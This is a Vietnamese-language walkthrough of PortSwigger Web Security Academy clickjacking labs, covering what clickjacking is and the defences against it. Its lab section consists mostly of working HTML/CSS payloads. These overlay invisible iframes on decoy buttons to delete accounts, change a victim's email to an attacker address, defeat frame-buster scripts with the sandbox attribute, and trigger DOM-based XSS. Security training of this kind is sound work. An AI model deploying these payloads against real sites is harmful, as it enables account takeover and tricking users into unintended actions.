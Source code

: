 # Clickjacking

Nhân dịp trên mạng đang nổi trội những người thân bạn bè pay acc fb ngay trong 1 đêm thì mình có cảm hứng để làm về lổ hỗng [Clickjacking](https://portswigger.net/web-security/clickjacking)

## Clickjacking là gì ?
Nói ngắn gọn dễ hiểu nhất là một hình thức tấn công đánh lừa người dùng nhấp chuột vô ý vào một đối tượng trên website(ví dụ cụ thể ở đây là fb). Khi nhấp chuột vào một đối tượng trên màn hình, người dùng nghĩ là mình đang click vào đối tượng đó nhưng thực chất họ đang bị lừa click vào một đối tượng khác > đã bị làm mờ hay ẩn đi. Kẻ tấn công có thể sử dụng kỹ thuật tấn công này cho nhiều mục đích. Đánh cắp tài khoản người dùng, lừa click vào quảng cáo để kiếm tiền, lừa like page hoặc nguy hiểm hơn là cài một webshell lên máy chủ web.
## Có thể khai thác lỗ hổng này như thế nào ??
```
  + Hacker có thể lấy cắp thông tin đăng nhập của bạn thông qua 1 cái form fake trông có vẻ giống giống trang thật.
  + Lừa người dùng mở web-cam hoặc microphone bằng cách hiển thị các yếu tố vô hình trên trang cài đặt Adobe Flash.
  + Phát tán worms trên các trang mạng xã hội.
  + Phát tán malware bằng cách chuyển hướng người dùng tới link download chương trình độc hại.
  + Quảng cáo lừa đảo.
```
## Cách ngăn chặn Clickjacking

Clickjacking tấn công bằng cách bao bọc trang web mà người dùng tin tưởng bởi *iframe* sau đó render ẩn phần tử này lên trên cùng. Để ngăn chặn lỗ hổng này các bạn có thể sử dụng các cách sau :
```
  + X-Frame-Options
  + Content Security Policy
  + Frame-Killing

``` 
## Clickjacking Lab
  
### Lab: Basic clickjacking with CSRF token protection
Bài lab đã mô tả rõ ràng cho chúng ta cách thức để exploit lỗ hổng này chính là khai thác nút Delete Account bằng cách tạo ra 1 nút ảo đè lên và đánh lừa người dùng. 
Account : wiener:peter

Có 1 vài chỉ dẫn về struct của html mà chúng ta sẽ exploit như sau : 
```
<head>
  <style>
    #target_website {
      position:relative;
      width:128px;
      height:128px;
      opacity:0.00001;
      z-index:2;
      }
    #decoy_website {
      position:absolute;
      width:300px;
      height:400px;
      z-index:1;
      }
  </style>
</head>
...
<body>
  <div id="decoy_website">
  ...decoy web content here...
  </div>
  <iframe id="target_website" src="https://vulnerable-website.com">
  </iframe>
</body>
```
Tuy nhiên để phù hợp với HTML của trang web mà chúng ta đã đăng nhập vào và tương ứng với nút DeleteAccount thì chúng ta sẽ thay đổi như sau :
```
<style>
   iframe {
       position:relative;
       width: 500px;
       height: 700px;
       opacity: 0.0001;
       z-index: 2;
   }
   div {
       position:absolute;
       top:510px;
       left:80px;
       z-index: 1;
   }
</style>
<div>Click me</div>
<iframe src="https://ac061f661e51bedf80356b5100af000a.web-security-academy.net/my-account"></iframe>

```




### Lab: Clickjacking with form input data prefilled from a URL parameter
Như mô tả thì đây là bài mở rộng của lab trên nên về cơ bản các bước chúng ta cũng làm tương tự như trên.

Tuy nhiên vì đây là chức năng update email. chúng ta có thể dùng nó để update email của chúng ta và leak thông tin.
Dùng burpSuite để bắt lại request khi update email.



Điều đó làm thay đổi cấu trúc của link mà chúng ta chèn vào trong khung HTML được dựng: 
```
<style>
   iframe {
       position:relative;
       width:500px;
       height: 700px;
       opacity: 0.0001;
       z-index: 2;
   }
   div {
       position:absolute;
       top:440px;
       left:50px;
       z-index: 1;
   }
</style>
<div>Click me</div>
<iframe src="https://acfc1f101e46e458806d5c3d00b0004c.web-security-academy.net/my-account?email=hacker@attacker-website.com"></iframe>
```

Phần *email=hacker@attacker-website.com* chính là phần chúng ta thêm email của hacker để leak thông tin.



### Lab: Clickjacking with a frame buster script
Bài lab này đã cho chúng ta biết dùng lại kỹ thuật của 2 bài lab trên là vô dụng, và đưa ra 1 hướng mới cho chúng ta khai thác.
```
Frame busting techniques are often browser and platform specific and because of the flexibility of HTML they can usually be circumvented by attackers. As frame busters are JavaScript then the browser's security settings may prevent their operation or indeed the browser might not even support JavaScript. An effective attacker workaround against frame busters is to use the HTML5 iframe sandbox attribute. When this is set with the allow-forms or allow-scripts values and the allow-top-navigation value is omitted then the frame buster script can be neutralized as the iframe cannot check whether or not it is the top window:

<iframe id="victim_website" src="https://victim-website.com" sandbox="allow-forms"></iframe>
```
Như vậy là chúng ta đã có hướng giải quyết cho vấn đề, chúng ta dùng sandbox = allow-forms để vô hiệu hóa.
```
<style>
   iframe {
       position:relative;
       width:500px;
       height: 700px;
       opacity: 0.0001;
       z-index: 2;
   }
   div {
       position:absolute;
       top:440px;
       left:50px;
       z-index: 1;
   }
</style>
<div>Click me</div>
<iframe sandbox="allow-forms"
src="https://ac6f1fa31ecac23380c4079b000d00fe.web-security-academy.net/my-account?email=hacker@attacker-website.com"></iframe>
```

Để có được payload như trên phải căn chỉnh nhiều lần để rút ra được những thông số như thế.


### Lab: Exploiting clickjacking vulnerability to trigger DOM-based XSS

```
<style>
   iframe {
       position:relative;
       width:500px;
       height: 700px;
       opacity: 0.0001;
       z-index: 2;
   }
   div {
       position:absolute;
       top:635px;
       left:60px;
       z-index: 1;
   }
</style>
<div>click me</div>
<iframe
src="https://acb41f951f633851803d2471000c00bf.web-security-academy.net/feedback?name=<img src=1 onerror=print()>&email=hacker@attacker-website.com&subject=test&message=test#feedbackResult"></iframe>
```



### Lab: Multistep clickjacking

```
<style>
   iframe {
       position:relative;
       width:$width_value;
       height: $height_value;
       opacity: $opacity;
       z-index: 2;
   }
   .firstClick, .secondClick {
       position:absolute;
       top:$top_value1;
       left:$side_value1;
       z-index: 1;
   }
   .secondClick {
       top:$top_value2;
       left:$side_value2;
   }
</style>
<div class="firstClick">Test me first</div>
<div class="secondClick">Test me next</div>
<iframe src="$url"></iframe>
```
